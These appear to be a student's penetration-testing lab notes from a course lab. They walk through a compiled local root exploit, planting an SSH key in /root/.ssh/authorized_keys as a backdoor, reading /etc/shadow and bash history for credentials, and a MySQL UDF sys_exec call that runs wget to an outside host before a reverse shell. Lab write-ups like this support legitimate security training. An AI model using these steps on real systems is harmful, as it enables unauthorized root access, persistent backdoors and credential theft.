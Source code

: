 ## #privilege_escalation 
1. Copy the exploit to the **/home** directory to have a clean copy, then follow the compile instructions in hte file.  **gcc 45010.c -o 45010**.  Once complete, upload it to Ajla.
2. Once the file is transferred, hit it with **chmod +x**, then run it with **./45010**, then verify that it worked. In this case, we run **whoami** and see that we've gotten root !
3. Now we can use **ssh** to make a more stable backdoor.  Start by generating a new ssh #key on our kali machine.
	- **ssh-keygen**, then **cat: ~/.ssh/id_rsa.pub** 
4. Create the **authorized_keys** file on Ajla to accept our public key.
	- **mkdir /root/.ssh**, then **echo "ssh-rsa dqjdqjdjleameav kali@kali'' > /root/.ssh/authorized_keys** 
5. On the Kali machine, run **ssh root@sandbox.local

## Searching for DB creds
When searchign for creds, think like an admin or a dev !
1. Take a look in the **/var/log/auth.log** file, in case a user accidentally enters their password in the username field and it gets logged.
2. Look at the **/etc/passwd**, **/etc/group** and the **/etc/shadow** 
3. Enumerate ajla's home directory to see what their is and read the #bashHistory (**.bash_history**) file to see what this user has run. In this case, this user has logged into the mysql server using command line arguments, which are logged ! ![[Pasted image 20221110165524.png]] 

# Targeting the DB again

## Exploitation
Now that we have root DB creds for Zora's MariaDB instance, so we go back and try the UDF exploit again with root perms. 
1. As before, try to run the 5 commands after logging into mysql as root with : run **mysql --host=127.0.0.1 --port=13306 --user=root -p** and enter the DB password we enumerated with prompted.
2. set the *shell* variable to the #shellcode we generated earlier ![[Pasted image 20221110165935.png]] 
3. Run **select @@plugin_dir;** 
4. Now, run the 2nd command (that failed earlier).  Note that it works !
5. Run the 3rd command and note that it returns no errors.
	- We validate that it works by making a network call from the DB. Do this by starting a python server (**sudo python3 -m http.server 80**) and run **select sys_exec('wget http://10.11.0.4');** and look for the entry in our python server. It worked !
6. Send the reverse shell to your listener and run **whoami** - ntoe that you are now the *mysql* user

## #post-exploitation enumeration
1. Start with **cat /etc/issue** to get more info, followed by **/proc/version**.  Note that this is Alipne linux, which is a lesser-known distro. 
2. Continue by running **env**, **ps aux**, **netstat -tulpn** ... for the moment, nothign wild. However, running **cat /etc/fstab** shows an interesting share mounted  - */mnt/scripts* at 10.5.5.20
3. **cd** into that fileshare and start poking around.  We see a **system_report.ps1** file that, upon further inspection, contains a new computer name and a set of creds !!!!! Download and save all scripts, of course![[Pasted image 20221110171949.png]] 
